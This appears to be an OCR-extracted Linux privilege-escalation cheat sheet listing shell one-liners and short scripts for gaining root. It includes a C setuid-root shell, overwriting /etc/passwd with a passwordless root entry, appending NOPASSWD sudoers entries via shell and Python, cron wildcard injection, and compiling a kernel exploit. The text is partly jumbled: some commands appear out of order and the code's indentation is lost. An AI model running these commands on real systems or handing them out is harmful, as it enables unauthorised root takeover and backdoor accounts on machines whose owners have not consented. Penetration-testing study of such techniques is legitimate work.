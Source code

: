 $ chown root:root /tmp/setuid;chmod 4777 /tmp/setuid;

If /etc/passwd has incorrect permissions, you can root:

$ echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su

Add user www-data to sudoers with no password

$ echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update

If you can sudo chmod:

$echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c $ sudo chown root:root /tmp/setuid; sudo chmod 4777 /tmp/setuid; /tmp/setuid

Wildcard injection if there is a cron with a wildcard in the command line, you can create a file, whose name will be passed as an argument to the cron task, For more info:

https://www.sans.org/reading-room/whitepapers/testing/attack-defend-linux-privilege-escalation-techniques-2016-37562

compile exploit fix error

$ gcc 9545.c -o 9545 -Wl,--hash-style=both

Find other uses in the system

$id; who; w; last; cat /etc/passwd | cut -d: -f1; echo 'sudoers:'; cat /etc/sudoers; sudo -l

World readable/writable files:

$ echo "world-writeable folders"; find / -writable -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -222 -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -o w -type d 2>/dev/null; echo "world-executable folders"; find / -perm -o x -type d 2>/dev/null; echo "world-writeable & executable folders"; find / \( -perm -o w -perm -o x \) -type d 2>/dev/null;

Find world-readable files:

$ find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print

Find nobody owned files

$ find /dir -xdev \( -nouser -o -nogroup \) -print

Add user to sudoers in python.

#!/usr/bin/env python

import os

import sys

try:

os.system('echo "username ALL=(ALL:ALL) ALL" >> /etc/sudoers')

except:

sys.exit()

Ring0 kernel exploit for 2.3/2.4
